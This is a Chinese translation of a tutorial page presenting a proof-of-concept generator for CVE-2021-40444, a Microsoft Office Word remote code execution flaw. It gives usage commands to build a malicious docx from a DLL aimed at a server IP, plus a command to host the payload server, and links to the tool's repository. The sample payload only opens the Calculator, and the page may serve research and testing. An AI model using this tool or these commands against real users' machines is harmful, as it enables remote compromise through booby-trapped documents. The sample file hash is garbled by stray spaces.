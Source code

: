 # CVE-2021-40444 PoC:利用 CVE-2021-40444(Microsoft Office Word 远程代码执行)的恶意 docx 生成器

> 原文：<https://kalilinuxtutorials.com/cve-2021-40444-poc/>

[![](img//2d2bfa07aba30a50e7754b6619a2defe.png)](https://1.bp.blogspot.com/-VgtcdjKkQcM/YUSb6wCz4ZI/AAAAAAAAK4I/ryPbDYCyBl8jv3aRf-_IzqL5AddvA6O4QCLcBGAsYHQ/s728/download%2B%25281%2529.png)

**CVE-2021-40444 PoC** 是利用 CVE-2021-40444(Microsoft Office Word 远程代码执行)的恶意 docx 生成器

这个脚本的创建是基于对在野外使用的样本 938545 F7 bb 40738908 a 95 da 8 cdeabb 2 a 11 ce 2 ca 36 b 0 f 6 a 74 deda 9378d 380 a 52(docx 文件)的一些逆向工程

你需要先安装 lcab(`**sudo apt-get install lcab**`)

检查`**REPRODUCE.md**`中的手动复制步骤

如果您生成的 cab 不工作，请尝试将 exploit.html URL 指向 calc.cab

**使用**

首先生成一个恶意的 docx 文档，给定一个 DLL，你可以使用在`**test/calc.dll**`的那个，它只是从对`**system()**`的调用中弹出一个`**calc.exe**`

`**python3 exploit.py generate test/calc.dll http://<SRV IP>**`

![](img//0d7be3c80ce9864fc4da8f725df413ef.png)

一旦你生成了恶意的 docx(将在`**out/**`)你就可以设置服务器:

`**sudo python3 exploit.py host 80**`

![](img//cb43b23643153323b51321f4d681e677.png)

最后，在 Windows 虚拟机中尝试 docx:

![](img//accfa1722dfaf2dad9b7cdf977a0a946.png)[**Download**](https://github.com/lockedbyte/CVE-2021-40444)